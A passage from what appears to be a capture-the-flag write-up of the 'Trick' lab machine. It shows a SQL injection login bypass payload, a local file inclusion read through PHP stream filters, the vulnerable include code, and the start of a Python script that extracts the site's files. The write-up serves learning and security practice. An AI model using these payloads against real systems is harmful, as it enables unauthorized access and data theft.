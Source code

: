 I tried random credentials, the site did not say if a username existed or not. I then tried simple SQL Injection by using the username `' or 1 = 1 -- -` and it worked. I was connected as the administrator.

![Welcome Back Admin](/assets/images/2022/10/Trick/WelcomBackAdmin.png "Welcome Back Admin")

Once connected, I was sent to `http://preprod-payroll.trick.htb/index.php?page=home`. The `page` parameter looked like it could be vulnerable to LFI. I had run feroxbuster on the site, so I knew there was a file called `home.php`. The vulnerable code must have been adding the `.php` after the file name.

I tried reading the index.php file using LFI and PHP stream filters to get it as base64. I loaded `http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=index`. It returned the encoded source code for the file. I saved it to a file and decoded it with `base64 -d index.b64 > index.php`.

Amongst the returned code, there was the part with the LFI vulnerability. With this, I could read any PHP file from the server.

```php
<main id="view-panel" >
    <?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>
  <?php include $page.'.php' ?>
</main>
```

The site had a lot of PHP files. So I wrote a small script to extract them all and save them locally.

```python
#!/bin/env python

import requests
from bs4 import BeautifulSoup
import base64

files = [
    'index',
    'login',
    'ajax',
    'home',
    'users',
    'header',
    'employee',
    'navbar',
    'department',
    'db_connect',
```